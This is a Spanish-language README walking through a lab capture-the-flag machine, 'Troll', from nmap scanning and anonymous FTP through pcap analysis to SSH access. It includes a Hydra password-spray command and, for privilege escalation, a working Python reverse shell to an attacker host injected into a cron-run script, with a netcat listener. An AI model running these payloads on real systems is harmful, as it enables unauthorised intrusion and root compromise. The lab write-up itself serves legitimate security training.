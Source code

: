 # Troll1

![imagen](https://github.com/90l3m0np13/Troll1/blob/main/Portada_LoL.jpeg)
#  Aprendiendo Pentesting: Resolución Práctica de la Máquina Troll


# Resolución de la Máquina Troll

Este documento describe el proceso paso a paso para resolver la máquina virtual "Troll". A continuación, se detallan las acciones realizadas para identificar vulnerabilidades, explotarlas y obtener acceso como usuario root.

---

## 1. Escaneo Inicial

Realizamos un escaneo de la red para identificar la IP de la máquina, los puertos abiertos y los servicios en ejecución.

```bash
nmap -sV -p- <IP_de_la_máquina>
```

### Puertos y Servicios Abiertos:
- **21/tcp**: FTP (vsftpd 3.0.2)
- **22/tcp**: SSH (OpenSSH 6.6.1p1)
- **80/tcp**: HTTP (Apache httpd 2.4.7)

---

## 2. Identificación de Vulnerabilidades

Exploramos posibles vulnerabilidades en los servicios identificados, consultando bases de datos como [CVE](https://cve.mitre.org/).

---

## 3. Acceso al Servicio FTP

Accedemos al servicio FTP utilizando el usuario `anonymous` sin contraseña.

```bash
ftp <IP_de_la_máquina>
```

### Archivo Encontrado:
- **lol.pcap**: Un archivo de captura de red que analizamos con Wireshark.

---

## 4. Análisis del Archivo `lol.pcap`

Descargamos el archivo `lol.pcap` a nuestra máquina local y lo abrimos con Wireshark.

```bash
get lol.pcap
```

### Pista Encontrada:
- En una transferencia de FTP-DATA, encontramos un nombre de usuario: `sup3rs3cr3tdirlol`.

---

## 5. Exploración del Servicio Web

Accedemos a la ruta web asociada al usuario encontrado:

  ![imagen](https://github.com/90l3m0np13/Troll1/blob/main/LoL.png) 
```
http://<IP_de_la_máquina>/sup3rs3cr3tdirlol
```

### Archivo Descubierto:
- **roflmao**: Un archivo oculto que contiene la pista `Find address <Pista>`.

---

## 6. Enumeración de Usuarios y Contraseñas

En la misma ruta web, encontramos dos carpetas:

1. **good_luck**: Contiene un listado de usuarios registrados en la máquina.
2. **this_folder_contains_the_password**: Contiene un archivo con una posible contraseña.

### Uso de Hydra:
Utilizamos Hydra para probar la contraseña encontrada con los usuarios listados.

```bash
hydra -L users.txt -p "contraseña_encontrada" <IP_de_la_máquina> ssh
```

---

## 7. Acceso SSH

Una vez identificado el usuario válido, accedemos a la máquina mediante SSH.

```bash
ssh "usuario"@<IP_de_la_máquina>
```

---

## 8. Escalada de Privilegios

### Método 1: Explotación de un Script Python

1. Identificamos un script en Python (`cleaner.py`) que se ejecuta periódicamente y es modificable.
2. Insertamos una reverse shell en el script.

```python
# Reverse Shell en Python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP_atacante>",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

3. Ponemos en escucha Netcat en nuestra máquina.

```bash
nc -lvp 4242
```

4. Cuando el script se ejecute, obtendremos una shell como root.

### Método 2: Uso de un Exploit de Escalada de Privilegios

1. Buscamos un exploit para la versión de Ubuntu de la máquina.
2. Compilamos y ejecutamos el exploit.

```bash
gcc exploit.c -o exploit
./exploit
```

---

## 9. Obtención de la Flag

Una vez como root, buscamos el archivo `proof.txt` que contiene la flag.

```bash
ls /root
cat /root/proof.txt
```

---

## Referencias

- [Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)
- [Exploit Database](https://www.exploit-db.com)



